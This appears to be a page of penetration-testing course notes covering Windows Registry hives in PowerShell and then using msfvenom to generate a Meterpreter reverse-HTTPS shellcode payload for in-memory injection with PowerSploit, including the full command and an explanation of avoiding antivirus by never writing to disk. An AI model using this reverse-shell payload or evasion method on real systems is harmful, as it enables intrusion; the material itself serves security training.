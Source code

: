 ## Interacting with the Registry
- We can manipulate the Registry via PowerShell.
- There are five main keys:
  - `HKEY_LOCAL_MACHINE (HKLM)` - holds settings for the local machine
  - `HKEY_CURRENT_CONFIG (HKCC)` - holds information generated at boot time
  - `HKEY_CLASSES_ROOT (HKCR)` - holds information about applications
  - `HKEY_USERS (HKU)` - holds the superset of HKEY_CURRENT_USER entries
  - `HKEY_CURRENT_USER (HKCU)` - holds settings that pertain to the currently logged-in user
- PowerShell displays the registry as a file system like in Linux 😄

The Registry in Microsoft operating systems (OSes), first developed for Windows 3.1, is a database that holds the configuration settings for Microsoft OSes and the applications installed on them. The Registry can be used to manipulate how applications function (or keep them from functioning), control what happens when the OS starts, and perform a variety of other similar tasks. The Registry is hierarchical in nature, often presented as a series of folders in graphical tools designed for accessing it. Each level of the hierarchy may contain additional levels, referred to as “keys,” as well as individual entries, referred to as “values.” The values are pairs containing a name and associated data. The Registry has five major sections, often referred to as “hives”: 
- **HKEY_LOCAL_MACHINE (HKLM)** - holds settings for the local machine 
- **HKEY_CURRENT_CONFIG (HKCC)** - holds information generated at boot time 
- **HKEY_CLASSES_ROOT (HKCR)** - holds information about applications 
- **HKEY_USERS (HKU)** - holds the superset of **HKEY_CURRENT_USER** entries 
- **HKEY_CURRENT_USER (HKCU)** - holds settings that pertain to the currently logged-in user

These hives are present in most Windows OSes, with some slight variations depending on the specific version in use; some hives are not accessible outside of APIs.

Only two hives are immediately accessible in PowerShell: 
- HKLM
- HKCU

## PowerShell and Metasploit
- Since PowerShell allows us to manipulate the Windows API, we can build shellcode.
- Powersploit
  - Uses the Windows API to inject the shellcode in a running process.
- msfvenom can be used to create the shellcode.
  - `msfvenom -f c -p windows/x64/meterpreter/reverse_https \`
  - `LHOST=<IP> LPORT=8675 EXITFUNC=thread | tr -d '“’ |\`
  - `perl -e 'while(<>){ $_ =~ s/\\x/,0x/g; print $_ ;}’\`
  - `| sed -e 's/^,//' | sed -e 's/;$//’`
- Once created, we place it in our script. 

One of the most powerful aspects of PowerShell is that we can rely on Windows APIs to perform tasks in the same manner as regular binaries. With antivirus software being so prevalent on today’s systems, importing a payload into a system and executing it can prove difficult. However, PowerShell can be used to ensure that the data can execute without ever having to be written to the file system.

We call `msfvenom` with C-style formatting by specifying the `-f` c option. The payload is specified with the `-p` option, following which the listening host (LHOST) and listening port (LPORT) are specified. 

Subsequently, we use `msfvenom` to create a payload that is threaded so that our process is not killed upon completion. The output from this will be a large block of code surrounded in quotation marks. Since the quotation marks are not required, we pipe the code into the `tr` command to delete the double quotes from the output. The following Perl statement helps with formatting by changing the format from `\x00 to 0x00` as well as adding commas between each pair of characters. The final two `sed` commands delete the first comma and the final semicolon in the code so that it can be copied cleanly. 

